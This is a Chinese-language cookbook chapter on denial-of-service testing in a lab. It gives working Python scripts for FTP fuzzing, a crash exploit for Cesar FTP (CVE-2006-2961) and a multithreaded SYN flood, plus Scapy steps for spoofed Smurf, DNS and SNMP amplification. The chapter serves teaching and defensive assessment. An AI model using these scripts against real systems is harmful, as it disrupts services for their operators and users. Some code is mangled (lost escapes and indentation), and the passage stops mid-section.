



# 第七章：拒绝服务

任何时候，只要你让资源在互联网上公开访问，或者通过内部网络向一个小社区开放，都需要考虑 **拒绝服务**（**DoS**）攻击的风险。DoS 攻击可能令人沮丧，且有时非常昂贵。最糟糕的是，这些威胁通常是最难以缓解的之一。为了能够正确评估网络和信息资源面临的威胁，你必须理解存在的 DoS 威胁类型以及与之相关的趋势。本章将包括以下评估 DoS 威胁的解决方案：

+   使用模糊测试识别缓冲区溢出

+   远程 FTP 服务缓冲区溢出 DoS

+   Smurf DoS 攻击

+   DNS 放大 DoS 攻击

+   SNMP 放大 DoS 攻击

+   SYN 洪水 DoS 攻击

+   Sock stress DoS 攻击

+   使用 Nmap NSE 进行的 DoS 攻击

+   使用 Metasploit 进行 DoS 攻击

+   利用数据库进行的 DoS 攻击

# 介绍

在逐一解决以下列出的解决方案之前，我们应该讨论一些基本原理，并了解它们如何与本章中讨论的 DoS 攻击相关。我们将在接下来的解决方案中讨论的 DoS 攻击都可以归类为缓冲区溢出、流量放大攻击或资源消耗攻击。我们将按顺序讨论与每种攻击类型相关的一般原理。

缓冲区溢出是一种编码漏洞，可能导致应用程序、服务或整个操作系统的拒绝服务。一般来说，缓冲区溢出能够导致拒绝服务，因为它们会将任意数据加载到不应访问的内存区域。这会中断执行流程，导致服务或操作系统崩溃。

流量放大 DoS 攻击通过消耗特定服务器、设备或网络可用的网络带宽来生成 DoS 状况。为了让流量放大攻击成功，需要满足两个条件。这些条件如下：

+   **重定向**：攻击者必须能够请求一个可以被重定向到受害者的响应。这通常通过 IP 欺骗来实现。由于 UDP 是无连接协议，大多数使用 UDP 作为传输层协议的应用层协议都可以通过伪造请求将服务响应重定向到其他主机。

+   **放大**：重定向的响应必须大于发起该请求的请求本身。响应的字节大小与请求字节大小的比率越大，攻击成功的概率就越高。

例如，如果发现一个 UDP 服务生成的响应比相关请求大 10 倍，攻击者可能会利用此服务，通过向易受攻击的服务发送伪造请求，并以尽可能高的传输速率发送，来生成比原本能产生的流量多 10 倍的攻击流量。

资源消耗攻击是通过生成一种条件，使得承载服务器或设备的本地资源消耗到无法再执行其预定功能的程度的攻击。这种类型的攻击可以针对各种本地资源，包括内存、处理器能力、磁盘空间或并发网络连接的可持续性。

# 通过模糊测试识别缓冲区溢出

识别缓冲区溢出漏洞最有效的技术之一是模糊测试。**模糊测试**是通过将精心制作或随机的数据传递给函数来测试与各种输入相关的结果的做法。在合适的情况下，输入数据有可能逃离其指定的缓冲区，流入相邻的寄存器或内存段。这一过程将扰乱执行流程，导致应用程序或系统崩溃。在某些情况下，缓冲区溢出漏洞还可以被利用来执行未经授权的代码。在这个具体的示例中，我们将讨论如何通过开发自定义模糊测试工具来测试缓冲区溢出漏洞。

# 准备工作

要执行远程模糊测试，你需要有一个运行 TCP 或 UDP 网络服务的系统。在提供的示例中，使用的是一台 Windows XP 系统，配备了 FTP 服务。有关设置 Windows 系统的更多信息，请参阅 第一章 中的 *安装 Windows Server* 示例，*入门*。此外，本节还需要写一个脚本到文件系统中，使用文本编辑器如 Vim 或 GNU nano 编辑。有关编写脚本的更多信息，请参阅 第一章 中的 *使用文本编辑器（Vim 和 GNU nano）* 示例，*入门*。

# 如何做...

Python 是一种优秀的脚本语言，可以有效地用于开发自定义模糊测试工具。在评估 TCP 服务时，`socket` 函数可以简化执行完整三次握手过程并连接到监听服务端口的过程。任何模糊测试脚本的主要目标是将数据作为输入发送到任何给定的函数，并评估结果：

1.  我开发了一个可以用于模糊测试 FTP 服务认证后功能的脚本：

```
        #!/usr/bin/python

        import socket
        import sys

        if len(sys.argv) != 6:
            print "Usage - ./ftp_fuzz.py [Target-IP] [Port Number]
             [Payload] [Interval] [Maximum]"
            print "Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000"
            print "Example will fuzz the defined FTP service
             with a series of payloads"
            print "to include 100 'A's, 200 'A's, etc...
             up to the maximum of 1000"
            sys.exit()

        target = str(sys.argv[1])
        port = int(sys.argv[2])
        char = str(sys.argv[3])
        i = int(sys.argv[4])
        interval = int(sys.argv[4])
        max = int(sys.argv[5])
        user = raw_input(str("Enter ftp username: "))
        passwd = raw_input(str("Enter ftp password: "))
        command = raw_input(str("Enter FTP command to fuzz: "))

        while i <= max:
            try:
                payload = command + " " + (char * i)
                print "Sending " + str(i) + " instances of payload
                 (" + char + ") to target"
                s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                connect=s.connect((target,port))
                s.recv(1024)
                s.send('USER ' + user + 'rn')
                s.recv(1024)
                s.send('PASS ' + passwd + 'rn')
                s.recv(1024)
                s.send(payload + 'rn')
                s.send('QUITrn')
                s.recv(1024)
                s.close()
                i = i + interval
            except:
                print "nUnable to send...Server may have crashed"
                sys.exit()

        print "nThere is no indication that the server has crashed"

```

1.  脚本的第一部分定义了 Python 解释器的位置并导入所需的库。

1.  第二部分评估传递的参数数量，以确保其与脚本的正确用法一致。

1.  脚本的第三部分定义了将在整个脚本执行过程中使用的变量。其中一些变量从执行时传递给脚本的系统参数中获取其值。

1.  剩余的变量通过接受脚本用户的输入来定义。

1.  最后，脚本的其余部分定义了模糊测试过程。我们执行`ftp_fuzz.py`文件，方法如下：



1.  如果脚本在没有适当数量的系统参数下执行，脚本将返回预期的用法。必须作为系统参数包含几个值：

    +   第一个传递给脚本的参数是`目标 IP`地址。此 IP 地址与运行你希望模糊测试的 FTP 服务的系统相关联。

    +   下一个参数是`端口号`，即 FTP 服务运行的端口。通常情况下，FTP 服务会运行在 TCP 端口`21`。`有效负载`参数将定义要批量传递给服务的字符或字符序列。

    +   `间隔`参数定义了在第一次迭代中将传递给 FTP 服务的有效负载实例的数量。该参数还将作为每次迭代时有效负载实例数量递增的步长，直到达到`最大值`。该`最大值`由最后一个参数的值定义。

1.  脚本执行这些系统参数后，会请求 FTP 服务的认证凭证，并询问应该模糊测试哪个身份验证后的功能。

1.  在提供的示例中，模糊测试针对运行在 TCP 端口`21`的 Windows XP 主机的 FTP 服务进行，主机的 IP 地址是`172.16.69.129`。通过任意电子邮件地址将匿名登录凭证传递给 FTP 服务。此外，一系列`A`字符被传递给`MKD`身份验证后的功能，起始实例为`100`，每次递增`100`，直到达到最大值`1000`。

1.  同样的脚本也可以用来将一系列字符传递到有效负载中：


1.  在提供的示例中，有效负载被定义为`ABCD`，并且该有效负载的实例被定义为 100 的倍数，直到值为`500`。

# 它是如何工作的……

一般来说，缓冲区溢出可能会导致服务拒绝（DoS），因为它们可能会导致任意数据被加载到不应放置的内存区域。这会中断执行流程，导致服务或操作系统崩溃。本食谱中讨论的特定脚本之所以有效，是因为如果服务或操作系统崩溃，套接字将不再接受输入，脚本也无法完成整个有效载荷系列注入。如果发生这种情况，脚本需要通过*Ctrl* + *C*强制关闭。在这种情况下，脚本会返回指示，表明后续的有效载荷无法发送，且服务器可能已经崩溃。

# 远程 FTP 服务缓冲区溢出 DoS

在适当的情况下，输入数据有可能逃逸出其指定的缓冲区，流入相邻的寄存器或内存段。这个过程会破坏执行流，并导致应用程序或系统崩溃。在某些情况下，缓冲区溢出漏洞还可以被利用来执行未经授权的代码。在本食谱中，我们将演示如何针对 Cesar 0.99 FTP 服务执行基于缓冲区溢出的拒绝服务攻击（DoS）。

# 准备工作

要执行远程模糊测试，您需要一台运行网络服务（通过 TCP 或 UDP）的系统。在提供的示例中，使用的是带有 FTP 服务的 Windows XP 系统来完成此任务。有关如何设置 Windows 系统的更多信息，请参考第一章中的 *安装 Windows 服务器* 食谱，*入门指南*。此外，本节还需要编写脚本并将其保存到文件系统中，您可以使用 Vim 或 GNU nano 等文本编辑器来完成此操作。有关编写脚本的更多信息，请参考第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门指南*。

# 操作步骤…

Cesar 0.99 FTP 服务存在一个公开披露的漏洞。该漏洞通过 **常见漏洞和暴露**（**CVE**）编号系统定义为 `CVE-2006-2961`。通过对该漏洞进行研究，明显可以发现通过向 `MKD` 函数发送经过身份验证后的换行符序列，可以触发基于堆栈的缓冲区溢出：

1.  为了避免在将`n`转义序列传递给 Python 脚本时遇到的困难，并确保它在提供的输入中被正确解析，我们应该修改在前面食谱中讨论过的脚本。然后，我们可以使用修改后的脚本利用现有的漏洞，具体操作如下：

```
        #!/usr/bin/python

        import socket
        import sys

        if len(sys.argv) != 5:
            print "Usage - ./ftp_fuzz.py [Target-IP]
             [Port Number] [Interval] [Maximum]"
            print "Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000"
            print "Example will fuzz the defined FTP service
             with a series of line break "
            print "characters to include 100 'n's, 200 'n's,
             etc... up to the maximum of 1000"
            sys.exit()

        target = str(sys.argv[1])
        port = int(sys.argv[2])
        i = int(sys.argv[3])
        interval = int(sys.argv[3])
        max = int(sys.argv[4])
        user = raw_input(str("Enter ftp username: "))
        passwd = raw_input(str("Enter ftp password: "))
        command = raw_input(str("Enter FTP command to fuzz: "))

        while i <= max:
            try:
                payload = command + " " + ('n' * i)
                print "Sending " + str(i) + " line break
                 characters to target"
                s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                connect=s.connect((target,port))
                s.recv(1024)
                s.send('USER ' + user + 'rn')
                s.recv(1024)
                s.send('PASS ' + passwd + 'rn')
                s.recv(1024)
                s.send(payload + 'rn')
                s.send('QUITrn')
                s.recv(1024)
                s.close()
                i = i + interval
        except:
            print "nUnable to send...Server may have crashed"
            sys.exit()

        print "nThere is no indication that the server has crashed"

```

1.  对脚本所做的修改包括修改使用说明，移除作为参数提供的有效载荷，然后将一个换行符有效载荷硬编码到脚本中，按顺序发送：


1.  如果脚本在没有适当数量的系统参数的情况下执行，脚本将返回预期的使用方式。然后，我们可以执行脚本并发送多个`100`的有效载荷，直到最大`1000`。

1.  在发送了`700`个换行符的有效载荷后，脚本停止发送有效载荷并处于空闲状态。经过一段时间的不活动后，脚本会被强制关闭，使用*Ctrl* + *C*。脚本指示它无法发送字符，远程服务器可能已经崩溃。请看以下截图：


1.  通过返回运行 Cesar 0.99 FTP 服务的 Windows XP 机器，我们可以看到`server.exe`应用程序已经崩溃。为了恢复拒绝服务后的操作，必须手动重新启动 Cesar FTP 服务。

# 它是如何工作的…

一般来说，缓冲区溢出能够导致服务拒绝，因为它们可以导致任意数据被加载到不想要的内存段。这会中断执行流并导致服务或操作系统崩溃。本食谱中讨论的特定脚本之所以有效，是因为如果服务或操作系统崩溃，套接字将不再接受输入，脚本无法完成整个有效载荷注入序列。如果发生这种情况，脚本需要通过*Ctrl + C*强制关闭。在这种情况下，脚本将返回一个指示，表明后续有效载荷无法发送，并且服务器可能已经崩溃。

# Smurf DoS 攻击

**Smurf**攻击是历史上最古老的分布式拒绝服务（**DDoS**）放大攻击技术之一。该攻击通过向网络广播地址发送一系列带有伪造源 IP 地址的 ICMP 回显请求来实施。当这个回显请求被广播时，局域网中的所有主机都会对每个收到的伪造请求做出回应，目标主机会受到多次回应。这种技术在现代系统中效果较差，因为大多数系统不会响应定向广播流量。

# 准备工作

要执行 smurf 攻击，你需要有一个包含多个系统的局域网。在提供的示例中，使用了一个 Ubuntu 的安装作为扫描目标。有关如何设置 Ubuntu 的更多信息，请参考第一章中的*安装 Ubuntu 服务器*。

# 如何操作…

为了尝试执行传统的 smurf 攻击，可以使用 Scapy 从头开始构建所需的数据包：

1.  要在 Kali Linux 命令行中使用 Scapy，可以通过终端使用`scapy`命令，如下截图所示。为了向广播地址发送 ICMP 请求，我们必须首先构建这个请求的各个层。我们需要构建的第一层是 IP 层：


1.  要构建请求的 IP 层，我们应将 `IP` 对象分配给变量 `i`。通过调用 `display()` 函数，我们可以识别对象的属性配置。默认情况下，发送和接收地址均设置为 `127.0.0.1` 的环回地址。通过将目标地址设置为广播地址的字符串值，可以修改这些值。再次调用 `display()` 函数后，我们可以看到目标地址不仅已更新，而且 Scapy 还会自动将源 IP 地址更新为与默认接口关联的地址。

1.  现在我们已经构建了请求的 IP 层，我们应继续进行 ICMP 层：


1.  要构建请求的 ICMP 层，我们将使用与 IP 层相同的技术。默认情况下，ICMP 层已配置为执行回显请求。

1.  现在我们已经创建了 IP 和 ICMP 层，我们需要通过堆叠这些层来构建请求：


1.  IP 和 ICMP 层可以通过斜杠分隔的变量堆叠。然后，可以将这些层设置为将代表整个请求的新变量。可以调用 `display()` 函数来查看请求的配置。构建请求后，可以将其传递给函数。可以使用诸如 Wireshark 或 TCPdump 的数据包捕获工具监视结果。在提供的示例中，Wireshark 显示局域网上的两个 IP 地址响应了广播回显请求：


1.  实际上，两个响应地址不足以执行有效的拒绝服务攻击。如果在另一个带有半现代主机的实验室中复制此操作，则结果可能会类似。如果有足够的响应地址触发了拒绝服务，源地址需要替换为攻击目标的 IP 地址：


1.  在提供的示例中，使用 Scapy 中的一行命令执行与我们先前讨论过的相同操作，不同之处在于此时将源 IP 地址欺骗为局域网上另一系统的地址。此外，计数值可以用于连续发送多个请求。

# 它的工作原理…

放大攻击通过利用一个或多个第三方设备，通过网络流量淹没目标来工作。对于大多数放大攻击，两个条件成立，如下所述：

+   发动攻击所使用的协议并未验证请求源。所用的网络功能响应应比用于请求的内容明显大。

+   传统的 Smurf 攻击的有效性取决于局域网上的主机是否响应指向 IP 的广播流量。这些主机将从目标系统伪造的 IP 地址接收到广播的 ICMP 回显请求，并对每个收到的请求返回同时的 ICMP 回显应答。

# DNS 放大拒绝服务攻击

**域名系统**（**DNS**）放大攻击通过执行伪造查询来利用开放的 DNS 解析器，查询某一给定域名的所有记录类型。通过结合使用 DDoS 组件并同时向多个开放解析器发送请求，可以增强这种攻击的有效性。

# 准备工作

为了模拟 DNS 放大攻击，您需要有一个本地的名称服务器或知道一个开放且可以公开访问的名称服务器的 IP 地址。在提供的示例中，使用的是 Ubuntu 安装作为扫描目标。有关 Ubuntu 设置的更多信息，请参阅 第一章中的 *安装 Windows Server* 配方，*入门指南*。

# 如何操作…

要执行 DNS 放大攻击，请按照以下步骤操作：

1.  为了理解 DNS 放大是如何工作的，可以使用基本的 DNS 查询工具，如 `host`、`dig` 或 `nslookup`：

1.  通过执行对某一知名域名所有记录类型的请求，您会注意到某些返回了相当大的响应：



1.  在提供的示例中，针对 `yahoo.com` 域名请求所有记录类型的查询返回的响应包括七个 `A` 记录、三个 `AAAA` 记录、五个 `NS` 记录和三个 `MX` 记录。DNS 放大攻击的有效性与响应的大小直接相关。我们现在将尝试使用 Scapy 构建的数据包执行相同的操作。

1.  要发送我们的 DNS 查询请求，我们必须首先构建该请求的各个层级。我们需要构建的第一层是 IP 层：


1.  为了构建请求的 IP 层，我们应该将 `IP` 对象赋值给变量 `i`。通过调用 `display()` 函数，我们可以识别该对象的属性配置。默认情况下，发送和接收地址都设置为 `127.0.0.1` 的回送地址。通过设置 `i.dst` 为要查询的名称服务器的地址字符串，可以修改这些值。

1.  通过再次调用 `display()` 函数，我们可以看到不仅目标地址已经更新，Scapy 还会自动将源 IP 地址更新为与默认接口关联的地址。

1.  现在我们已经构建了请求的 IP 层，接下来应该继续构建下一层。由于 DNS 是通过 UDP 处理的，下一层要构建的是 UDP 层：


1.  为了构建请求的 UDP 层，我们将使用与构建 IP 层相同的技术。在提供的示例中，`UDP`对象被分配给了`u`变量。如前所述，可以通过调用`display()`函数来识别默认配置。

1.  在这里，我们可以看到源端口和目标端口的默认值都列为`domain`。如你所猜测的那样，这是为了指示与端口`53`相关的 DNS 服务。DNS 是一种常见的服务，通常可以在网络系统中发现。要确认这一点，可以通过引用变量名和属性直接调用该值。

1.  现在 IP 和 UDP 层已经构建完成，我们需要构建 DNS 层：


1.  为了构建请求的 DNS 层，我们将使用与构建 IP 层和 UDP 层相同的技术。在提供的示例中，`DNS`对象被分配给了`d`变量。如前所述，可以通过调用`display()`函数来识别默认配置。在这里，我们可以看到有几个值需要修改：


1.  *递归所需*位需要激活；这可以通过将`rd`值设置为`1`来完成。此外，`qdcount`需要提供`0x0001`的值；这可以通过提供整数值`1`来实现。通过再次调用`display()`函数，我们可以验证配置调整是否已完成。

1.  现在 IP、UDP 和 DNS 层已经构建完成，我们需要构建一个 DNS 查询记录并分配给`qd`值：


1.  为了构建 DNS 查询记录，我们将使用与构建 IP、UDP 和 DNS 层相同的技术。在提供的示例中，DNS 查询记录被分配给了`q`变量。如前所述，可以通过调用`display()`函数来识别默认配置。在这里，我们可以看到有几个值需要修改：


1.  `qname`值需要设置为正在查询的域名。此外，`qtype`需要通过传递整数值`255`来设置为`ALL`。通过再次调用`display()`函数，我们可以验证配置调整是否已完成。

1.  现在查询记录已经配置完成，查询记录对象应该被分配为 DNS 的`qd`值：


1.  我们可以通过调用`display()`函数来验证查询记录是否已分配给 DNS 的`qd`值。现在，IP、UDP 和 DNS 层已经构建完成，且相应的查询记录已分配给 DNS 层，我们可以通过堆叠这些层来构建请求：


1.  IP、UDP 和 DNS 层可以通过用正斜杠分隔变量来堆叠。这些层然后可以设置为一个新的变量，该变量将表示整个请求。然后可以调用 `display()` 函数来查看请求的配置。

1.  在发送此请求之前，我们应该以与查看响应相同的显示格式查看它。通过这样做，我们可以更清晰地理解请求和响应之间的放大过程。这可以通过直接调用变量来实现：


1.  一旦请求构建完成，就可以将其传递给发送（`send()`）和接收（`recv()`）函数，以便分析响应。我们不会将其赋值给变量，而是直接调用该函数，以便响应能够以相同的格式显示：


1.  响应确认我们已成功构建了期望的请求，并已请求到一个包含七个 `A` 记录、三个 `AAAA` 记录、五个 `NS` 记录和三个 `MX` 记录的庞大有效负载，且这些记录属于 `yahoo.com` 域名。

1.  这个练习明确表明，此请求的响应比请求本身大得多。为了使这一放大攻击有效，它需要通过伪造源 IP 地址将流量重定向到我们的目标：


1.  在将源 IP 地址值重新定义为目标系统的 IP 地址的字符串等效项后，我们可以使用 `display()` 函数确认该值已被调整。然后，我们可以重新构建带有此更改的请求。为了验证我们是否能够将 DNS 查询响应重定向到这个伪造的主机，我们可以使用 `tcpdump` 命令在主机上启动一个 TCP 抓包，正如下图所示：


1.  在提供的示例中，`tcpdump` 配置将捕获所有通过 `eth0` 接口的流量，源地址为 `192.168.68.2`（即被查询的 DNS 服务器的地址）。然后，我们可以使用 `send()` 函数发送我们的请求：


1.  发送请求后，我们应回到 `tcpdump` 内容中，验证 DNS 查询的响应是否返回到了受害服务器：


1.  实际上，整个执行 DNS 放大攻击的过程可以通过在 Scapy 中执行一条单行命令来完成。此命令使用了我们在之前练习中讨论的所有相同的值。然后，可以修改计数值来定义希望发送到受害服务器的有效负载响应数量：


# 它是如何工作的…

放大攻击通过利用一个或多个第三方设备，向目标系统发送大量网络流量，从而使目标被压垮。对于大多数放大攻击，以下两个条件是成立的：

+   执行攻击所使用的协议不会验证请求源。网络功能的响应应明显大于用来请求的请求数据包。

+   DNS 放大攻击的效果与 DNS 查询响应的大小直接相关。此外，通过使用多个 DNS 服务器，攻击的威力也可以得到增强。

# SNMP 放大 DoS 攻击

SNMP 放大攻击利用具有可预测社区字符串的 SNMP 设备，通过伪造查询并返回大响应来进行攻击。通过使用 DDoS 组件以及同时向多个 SNMP 设备发送请求，可以提高此攻击的效果。

# 准备工作

为了模拟 SNMP 放大攻击，您需要一个启用 SNMP 的设备。在提供的示例中，使用了 Windows XP 设备。有关设置 Windows 系统的更多信息，请参阅第一章中的 *安装 Windows Server* 章节，*入门*。此外，还使用了安装了 Ubuntu 的设备作为扫描目标。有关设置 Ubuntu 的更多信息，请参阅第一章中的 *安装 Ubuntu Server* 章节，*入门*。

# 如何执行…

要执行 SNMP 放大攻击，请按照以下步骤操作：

1.  为了开始，我们需要构造一个 SNMP 查询，以返回到我们的系统来评估所使用的有效载荷的大小。要发送我们的 SNMP 查询请求，首先需要构建该请求的各层。我们需要构建的第一层是 IP 层：


1.  要构建请求的 IP 层，我们应将 `IP` 对象分配给变量 `i`。通过调用 `display()` 函数，我们可以识别该对象的属性配置。默认情况下，发送和接收地址都设置为回环地址 `127.0.0.1`。这些值可以通过设置 `i.dst` 为要查询的名称服务器的地址的字符串值来修改目标地址。再次调用 `display()` 函数，我们可以看到，不仅目标地址已更新，Scapy 还会自动将源 IP 地址更新为与默认接口关联的地址。

1.  现在我们已经构建了请求的 IP 层，接下来应该构建下一层。由于 SNMP 是通过 UDP 处理的，接下来要构建的层是 UDP 层：


1.  为了构建我们请求的 UDP 层，我们将使用与 IP 层相同的技术。在提供的示例中，`UDP`对象被分配给了`u`变量。如前所述，默认配置可以通过调用`display()`函数来识别。在这里，我们可以看到源端口和目标端口的默认值都列为`domain`。正如你可能猜到的，这表示与端口`53`相关的 DNS 服务。这个值需要更改为与 SNMP 相关的端口：


1.  为了将源端口和目标端口更改为 SNMP，应该传递整数值`161`；这个值对应于与该服务相关的 UDP 端口。通过再次调用`display()`函数，可以验证这些更改。现在，IP 和 UDP 层已经构建完成，我们需要构建 SNMP 层：


1.  为了构建我们请求的 SNMP 层，我们将使用与 IP 和 UDP 层相同的技术。在提供的示例中，`SNMP`对象被分配给了`snmp`变量。如前所述，默认配置可以通过调用`display()`函数来识别。现在，IP、UDP 和 SNMP 层已经构建完成，我们需要构建一个 bulk 请求来替代默认分配给 PDU 值的 SNMP `GET`请求：


1.  为了构建`SNMPbulk()`请求，我们将使用与 IP、UDP 和 SNMP 层相同的技术。在提供的示例中，`SNMPbulk()`请求被分配给了`bulk`变量。如前所述，默认配置可以通过调用`display()`函数来识别。在这里，我们可以看到有几个值需要修改：


1.  SNMP `varbindlist`需要修改，以包括查询的`oid`值。此外，`max_repetitions`被分配了整数值`50`。现在，bulk 请求已经配置完成，bulk 请求对象应该作为 SNMP PDU 值进行分配：


1.  我们可以通过调用`display()`函数来验证 bulk 请求是否已分配给 SNMP PDU 值。现在，IP、UDP 和 SNMP 层已经构建完成，bulk 请求也已配置并分配给了 SNMP 层，我们可以通过堆叠这些层来构建请求：


1.  IP、UDP 和 SNMP 层可以通过使用正斜杠分隔变量来堆叠。这些层可以被设置为一个新变量，该变量将表示整个请求。然后，可以调用`display()`函数来查看请求的配置。一旦请求构建完成，可以将其传递给`send`和`receive`函数，以便我们可以分析响应：


1.  响应确认我们已经成功构建了期望的请求，并且与最初发出的相对较小的请求相比，我们已经请求了一个相当大的有效负载。这个整个过程也可以通过在 Scapy 中使用一个简单的一行命令来执行。这个命令使用了我们在前一个练习中讨论的所有相同的值：


1.  为了实际使用此命令进行攻击，源 IP 地址需要更改为目标系统的 IP 地址。通过这样做，我们应该能够将有效负载重定向到那个受害者。这可以通过将 IP `src` 值更改为目标 IP 地址的字符串等效项来完成：


1.  `send()` 函数应该用来发送这些伪造的请求，因为不期望在本地接口上返回任何响应。为了确认有效负载确实到达了目标系统，可以使用 `tcpdump` 命令捕获传入的流量：


1.  在提供的示例中，`tcpdump` 被配置为捕获从源 IP 地址 `172.16.69.129`（SNMP 主机的 IP 地址）发出的流量，该流量通过 `eth0` 接口传输。

# 如何运作……

放大攻击通过利用一个或多个第三方设备，用大量的网络流量压倒目标。对于大多数放大攻击，两个条件是成立的：

+   执行攻击的协议不会验证请求的源。所使用的网络功能的响应应该显著大于请求所发出的请求。

+   SNMP 放大攻击的有效性与 SNMP 查询响应的大小直接相关。此外，通过使用多个 SNMP 设备，可以增强攻击的威力。

# SYN 洪水 DoS 攻击

**SYN 洪水 DoS** 攻击是一种资源消耗型攻击。它通过向与攻击目标服务相关的远程端口发送大量的 TCP SYN 请求来工作。对于每一个收到的初始 SYN 数据包，目标服务将发送一个 SYN+ACK 数据包，并保持连接以等待来自发起客户端的最终 ACK 数据包。通过用这些半开请求压倒目标，攻击者可以使服务无法响应。

# 准备工作

要使用 Scapy 对目标进行完整的 SYN 洪泛攻击，您需要有一个远程系统，该系统正在通过 TCP 运行网络服务。在提供的示例中，使用了 Metasploitable2 实例来执行此任务。有关设置 Metasploitable2 的更多信息，请参阅第一章中的*安装 Metasploitable2*食谱，*入门*。此外，本节还需要编写一个脚本到文件系统中，可以使用 Vim 或 GNU nano 等文本编辑器进行编写。有关编写脚本的更多信息，请参阅第一章中的*使用文本编辑器（Vim 和 GNU nano）*食谱，*入门*。

# 如何操作……

要使用 Scapy 执行 SYN 洪泛攻击，请按照给定的步骤操作：

1.  我们需要通过向与目标服务关联的端口发送 TCP SYN 请求来开始。为了向任何给定端口发送 TCP SYN 请求，我们必须先构建该请求的各个层。我们需要构建的第一层是 IP 层：


1.  要构建我们请求的 IP 层，我们应该将`IP`对象赋值给变量`i`。通过调用`display()`函数，我们可以识别该对象的属性配置。默认情况下，发送和接收地址都设置为`127.0.0.1`的回送地址。通过修改目的地址，将`i.dst`设置为我们希望扫描的地址的字符串值，可以更改这些值。再次调用`display()`函数时，我们可以看到，不仅目的地址已更新，Scapy 还会自动更新源 IP 地址为与默认接口相关联的地址。

1.  现在我们已经构建了请求的 IP 层，我们应该继续构建 TCP 层：


1.  要构建我们请求的 TCP 层，我们将使用与构建 IP 层时相同的技术。在提供的示例中，`TCP`对象被赋值给`t`变量。如前所述，通过调用`display()`函数可以识别默认配置。在这里，我们可以看到目的端口的默认值是 HTTP 端口`80`。对于我们的初步扫描，我们将保持默认的 TCP 配置不变。

1.  现在我们已经创建了 IP 层和 TCP 层，我们需要通过堆叠这些层来构建请求：


1.  IP 层和 TCP 层可以通过使用斜杠分隔变量来堆叠。然后，这些层可以被设置为一个新的变量，该变量将表示整个请求。接着可以调用`display()`函数来查看请求的配置。

1.  一旦请求构建完成，可以将其传递给`send`和`receive`函数，以便我们可以分析响应：


1.  相同的请求可以不必独立构建和堆叠每一层。相反，可以使用单行命令，通过直接调用函数并传递适当的参数来执行：


1.  SYN 洪水的效果取决于在给定时间内能够生成的 SYN 请求的数量。为了提高此攻击序列的效果，我编写了一个多线程脚本，可以执行尽可能多的 SYN 数据包注入并发进程，具体取决于攻击系统的处理能力：

```
        #!/usr/bin/python

        from scapy.all import *
        from time import sleep
        import thread
        import random
        import logging
        logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

        if len(sys.argv) != 4:
        print "Usage - ./syn_flood.py [Target-IP]
         [Port Number] [Threads]"
        print "Example - ./syn_flood.py 10.0.0.5 80 20"
        print "Example will perform a 20x multi-threaded
         SYN flood attack"
        print "against the HTTP (port 80) service on 10.0.0.5"
        sys.exit()

        target = str(sys.argv[1])
        port = int(sys.argv[2])
        threads = int(sys.argv[3])

        print "Performing SYN flood. Use Ctrl+C to stop attack."
        def synflood(target,port):
        while 0 == 0:
        x = random.randint(0,65535)
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)

        for x in range(0,threads):
        thread.start_new_thread(synflood, (target,port))

        while 0 == 0:
        sleep(1)

```

1.  脚本在执行时接受三个参数。这些参数包括目标 IP 地址、SYN 洪水将发送到的端口号，以及用于执行 SYN 洪水的线程数或并发进程数。

1.  每个线程开始时会生成一个介于 0 和 65,535 之间的整数值。这个范围代表可以分配给源端口的所有可能值。TCP 头中定义源端口和目标端口地址的部分都是 16 位长。每个比特位可以保持`1`或`0`的值。

1.  因此，存在 2¹⁶，即 65,536 个可能的 TCP 端口地址。单个源端口只能保持一个半开放连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大大提高攻击的性能：


1.  当脚本在没有任何参数的情况下执行时，使用方法将返回给用户。在提供的示例中，脚本随后将针对托管在`172.16.69.128`的`80`号 TCP 端口的 HTTP Web 服务进行执行，并且使用`20`个并发线程。

1.  脚本本身提供的反馈很少；然而，可以运行诸如 Wireshark 或 TCPdump 这样的流量捕获工具来验证连接是否正在发送。经过短暂的一段时间后，尝试连接到服务器的过程将变得非常缓慢，甚至完全无响应。

# 它是如何工作的…

TCP 服务只允许建立有限数量的半开放连接。通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，服务器将无法再接受新的连接。因此，服务将对新的用户完全不可用。如果将此攻击作为 DDoS 攻击并让多个攻击系统同时执行该脚本，攻击的效果可以进一步增强。

# Sock stress DoS 攻击

**Sock stress DoS** 攻击包括建立一系列到目标服务的 TCP 端口的开放连接。TCP 握手中的最终 ACK 响应应该为`0`。

# 准备工作

